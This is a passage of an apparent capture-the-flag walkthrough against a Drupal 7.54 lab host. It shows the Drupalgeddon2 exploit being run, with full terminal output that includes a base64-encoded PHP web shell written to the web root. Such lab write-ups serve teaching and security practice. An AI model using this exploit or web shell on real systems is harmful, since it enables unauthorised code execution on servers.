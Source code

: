This version is vulnerable to remote code execution.

## **Foothold**

The exploit for this service is know as `Drupalgeddon2`, the one I'll be using can be found [here](https://github.com/dreadlocked/Drupalgeddon2).

Now let's run the exploit

```terminal
$ ruby drupalgeddon2.rb http://10.10.10.9/                                                                                                               
[*] --==[::#Drupalggedon2::]==--                                                                                                                              
--------------------------------------------------------------------------------                                                                              
[i] Target : http://10.10.10.9/                                                                                                                               
--------------------------------------------------------------------------------                                                                              
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)                                                                                          
[+] Drupal!: v7.54                                                                                                                                            
--------------------------------------------------------------------------------                                                                              
[*] Testing: Form   (user/password)                                                                                                                           
[+] Result : Form valid                                                                                                                                       
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -                                                                               
[*] Testing: Clean URLs                                                                                                                                       
[+] Result : Clean URLs enabled                                                                                                                               
--------------------------------------------------------------------------------                                                                              
[*] Testing: Code Execution   (Method: name)                                                                                                                  
[i] Payload: echo WBPJRBLX                                                                                                                                    
[+] Result : WBPJRBLX                                                                                                                                         
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!                                                                            
--------------------------------------------------------------------------------                                                                              
[*] Testing: Existing file   (http://10.10.10.9/shell.php)                                                                                                    
[i] Response: HTTP 404 // Size: 12                                                                                                                            
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -                                                                               
[*] Testing: Writing To Web Root   (./)                                                                                                                       
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php            
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?                                                                    
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -                                                                               
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)                                                                                      
```